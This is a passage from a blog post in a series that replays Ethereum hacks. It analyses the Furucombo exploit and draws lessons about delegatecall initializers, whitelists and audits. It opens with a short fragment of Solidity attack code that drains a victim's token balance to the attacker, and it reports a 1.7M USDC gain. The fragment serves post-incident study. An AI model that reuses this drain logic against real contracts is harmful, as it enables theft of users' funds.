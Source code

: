 ```solidity
        furucombo.batchExec(tos, configs, datas);
    }

    function attackDelegated(IERC20 token, address sender) external payable {
        token.transferFrom(sender, tx.origin, token.balanceOf(sender));
    }
}
```

Calling `setup` followed by `attack(usdcAddress, victimAddress)` does indeed end up netting the attacker 1.7M USDC.
The full test code is available [in this repo](https://github.com/MrToph/replaying-ethereum-hacks/blob/master/test/furucombo.ts).

To sum up:

- Be careful of initializer functions. There is no such thing as "a contract (or storage field) is initialized", it's always relative to the current context - which can be changed via `delegatecall`
- Having a whitelist is great, but blindly adding a contract to a whitelist because it's from a well-known, audited project is a bad idea. Check how the contract composes with your project

## Audits

A question that I've seen being asked a lot is why this hasn't been caught during the audits.
In general, audits are done on the smart contract code **disregarding any deployments**.
This attack was only possible because the Furucombo team keeps a **dynamic whitelist** and they manually whitelisted a vulnerable contract.
While the audit should definitely have stated that one needs to check whether whitelisting a contract leads to vulnerabilities, the decision on what contracts to add, and therefore the responsibility to do due diligence, is solely on the project party.


> This post is part of the [Replaying Ethereum Hacks series](/categories/replaying-eth)


